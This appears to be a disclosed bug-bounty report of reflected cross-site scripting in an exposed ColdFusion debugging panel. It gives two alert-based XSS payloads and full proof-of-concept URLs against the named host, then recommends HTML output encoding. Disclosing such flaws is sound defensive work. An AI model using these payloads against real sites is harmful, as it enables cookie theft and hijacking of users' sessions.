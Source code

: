 # Reflected Cross Site Scripting at  ColdFusion Debugging Panel  http://www.grouplogic.com/CFIDE/debug/cf_debugFr.cfm

## Report Details
- **Report ID**: 1166918
- **URL**: https://hackerone.com/reports/1166918
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-04-16T19:49:43.486Z
- **Disclosed**: 2022-06-14T10:20:47.690Z

## Reporter
- **Username**: ub3rsick
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
The ColdFusion Debugging Panel exposed at below URL.
```
http://www.grouplogic.com/CFIDE/debug/cf_debugFr.cfm?userPage=
```
The **userPage** parameter is not properly sanitized and is displayed  without proper output encoding. This results in reflected cross site scripting.

## Steps To Reproduce

Enter any of below payload in the **userPage** parameter and access the URL:

```
Payload 1: Mouse Over XSS
---------------------------
%0d%0a</script><h1+onmouseover=alert(document.cookie)>MOUSEOVER_XSS</h1>


Payload 2: 
---------
%0d%0a</script><img+src=x+onerror=alert(document.domain)>

```

Or Just access below URLs in browser:

```
http://www.grouplogic.com/CFIDE/debug/cf_debugFr.cfm?userPage=%0d%0a</script><h1+onmouseover=alert(document.cookie)>MOUSEOVER_XSS</h1>

http://www.grouplogic.com/CFIDE/debug/cf_debugFr.cfm?userPage=%0d%0a</script><img+src=x+onerror=alert(document.domain)>

```


## Recommendations
It is highly recommended to implement output encoding.

Encode the following characters with HTML entity encoding to prevent switching into any execution context, such as script, style, or event handlers. Using hex entities is recommended in the spec. The 5 characters significant in XML ```(&, <, >, ", ')```:
```
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;
```

Reference: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

## Impact

XSS can be used to :
- Steal cookies, password
- Website Defacement
- Redirect Victim to Malicious site
- Log keystrokes etc.

## Attachments
- GroupLogic-CF_DBG_PANEL_XSS_01.png
- GroupLogic-CF_DBG_PANEL_XSS_02.png
- GroupLogic-CF_DBG_PANEL_XSS_03.png
- GroupLogic-CF_DBG_PANEL_XSS_04.png
